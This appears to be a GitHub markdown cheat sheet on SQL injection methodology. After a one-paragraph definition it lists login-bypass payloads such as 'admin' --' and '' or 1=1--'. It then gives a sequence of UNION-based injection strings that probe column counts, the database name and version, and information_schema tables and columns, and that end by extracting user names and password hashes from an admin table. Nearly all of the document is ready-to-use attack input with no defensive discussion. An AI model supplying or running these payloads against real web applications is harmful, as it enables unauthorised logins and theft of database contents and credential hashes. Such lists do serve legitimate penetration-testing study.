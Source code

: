 #### SQL Injection Methodology
SQL (Structured Query Language) Injection, mostly referred to as SQLi, is an attack on a web application database server that causes malicious queries to be executed. SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution (e.g. to dump the database contents to the attacker).

#### Bypassing Login Screens(SMO+)
SQL Injection 101, Login Tricks 
* ```admin' --```
* ```admin' #```
* ```admin'/*```
* ```admin' or 1=1-- -```
* ```' or 1=1--```
* ```' or 1=1#```
* ```' or 1=1/*```
* ```') or '1'='1--```
* ```') or ('1'='1--```

----------------------------------------------------------------------------------------------------------------------------------------------------------------


* SELECT DATA  
```SELECT```
* RETRIEVE DATA FROM MULTIPLE TABLES   
```UNION```
* ADD DATA     
```INSERT```

```
1 UNION SELECT 1
```
```
1 UNION SELECT 1,2
```
```
1 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,database()
```
```
' or1=1-- -
```
```
' OR 1=1;--
```
```
' UNION SELECT NULL,NULL,NULL,NULL-- -
```
```
' UNION SELECT 1,2,3,4-- -
```
```
123123' UNION SELECT NULL,NULL,NULL,NULL-- -
```
```
123123' UNION SELECT NULL,database(),NULL,NULL-- -
```
```
123123' UNION SELECT NULL,@@version,NULL,NULL-- -
```
```
123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -
```
```
123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -
```
```
123123' UNION SELECT NULL,table_name,table_schema,NULL from information_schema.tables-- -
```
```
123123' UNION SELECT NULL,column_name,table_schema,NULL from information_schema.columns-- -
```
```
123123' UNION SELECT NULL,column_name,table_name,NULL from information_schema.columns-- -
```
```
123123' UNION SELECT NULL,user,hash,NULL from admin-- -
```
